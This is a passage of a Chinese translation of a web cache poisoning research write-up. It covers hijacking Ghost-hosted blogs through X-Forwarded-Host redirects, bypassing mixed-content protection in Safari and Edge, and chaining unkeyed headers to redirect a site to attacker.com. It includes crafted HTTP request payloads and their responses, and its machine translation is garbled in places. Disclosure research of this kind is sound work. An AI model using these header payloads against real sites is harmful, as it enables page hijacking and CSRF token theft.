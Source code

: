 当用户首次使用Ghost注册博客时，它会在ghost.io下使用唯一的子域发布它们。一旦博客启动并运行，用户就可以定义像blog.cloudflare.com这样的任意自定义域。如果用户定义了自定义域，则其ghost.io子域将只重定向到它：
```
GET / HTTP/1.1
Host: noshandnibble.ghost.io

HTTP/1.1 302 Found
Location: http://noshandnibble.blog/
```
至关重要的是，也可以使用X-Forwarded-Host标头触发此重定向：
```
GET / HTTP/1.1
Host: blog.cloudflare.com
X-Forwarded-Host: noshandnibble.ghost.io

HTTP/1.1 302 Found
Location: http://noshandnibble.blog/
```
通过注册我自己的ghost.org帐户并设置自定义域名，我可以将发送到blog.cloudflare.com的请求重定向到我自己的网站：[waf.party](https://waf.party/)。这意味着我可以劫持像图像一样的资源加载：
![5](https://xzfile.aliyuncs.com/media/upload/picture/20180812170049-35428e04-9e0e-1.png "5")
重定向JavaScript加载以获得对blog.cloudflare.com的完全控制的下一个逻辑步骤被一个怪癖所阻挠 - 如果你仔细观察重定向，你会看到它使用HTTP而博客是通过HTTPS加载的。这意味着浏览器的混合内容保护启动并阻止`script/stylesheet`重定向。

我找不到任何技术方法让Ghost发出HTTPS重定向，并且很想放弃我的顾虑并报告使用HTTP而不是HTTPS作为漏洞的HTTPS，希望他们能为我修复它。最终，我决定通过复制问题并将其放入[hackxor](https://hackxor.net/mission?id=7)并附上现金奖励来众筹解决方案。第一个解决方案是Sajjad Hashemian发现的，他发现在Safari中如果waf.party在浏览器的HSTS缓存中，重定向将自动升级到HTTPS而不是被阻止。根据[Manuel Caballero的工作](https://www.brokenbrowser.com/loading-insecure-content-in-secure-pages/)，[Sam Thomas](https://twitter.com/_s_n_t)跟进了Edge的解决方案- 发布302重定向到HTTPS URL完全绕过了Edge的混合内容保护。

总而言之，对于Safari和Edge用户，我可以完全妥协blog.cloudflare.com，blog.binary.com和其他所有ghost.org客户端上的每个页面。对于Chrome/Firefox用户，我只能劫持图像。虽然我使用Cloudflare作为上面的截图，因为这是第三方系统中的一个问题，我选择通过Binary报告它，因为他们的bug赏金计划支付现金，不像Cloudflare的。

### 链接未加密的输入
有时，未加密的输入只会混淆应用程序堆栈的一部分，并且您需要链接其他未加密的输入以实现可利用的结果。请访问以下网站：
```
GET /en HTTP/1.1
Host: redacted.net
X-Forwarded-Host: xyz

HTTP/1.1 200 OK
Set-Cookie: locale=en; domain=xyz
```
X-Forwarded-Host标头覆盖cookie上的域，但在响应的其余部分中没有生成任何URL。这本身就没用了。但是，还有另一个未加密的输入：
```
GET /en HTTP/1.1
Host: redacted.net
X-Forwarded-Scheme: nothttps

HTTP/1.1 301 Moved Permanently
Location: https://redacted.net/en
```
此输入本身也是无用的，但如果我们将两者结合在一起，我们可以将响应转换为重定向到任意域：
```
GET /en HTTP/1.1
Host: redacted.net
X-Forwarded-Host: attacker.com
X-Forwarded-Scheme: nothttps

HTTP/1.1 301 Moved Permanently
Location: https://attacker.com/en 
```
使用此技术，可以通过重定向POST请求从自定义HTTP标头中窃取CSRF令牌。我还可以获得存储的基于DOM的XSS，其中包含对JSON加载的恶意响应，类似于前面提到的data.gov漏洞。
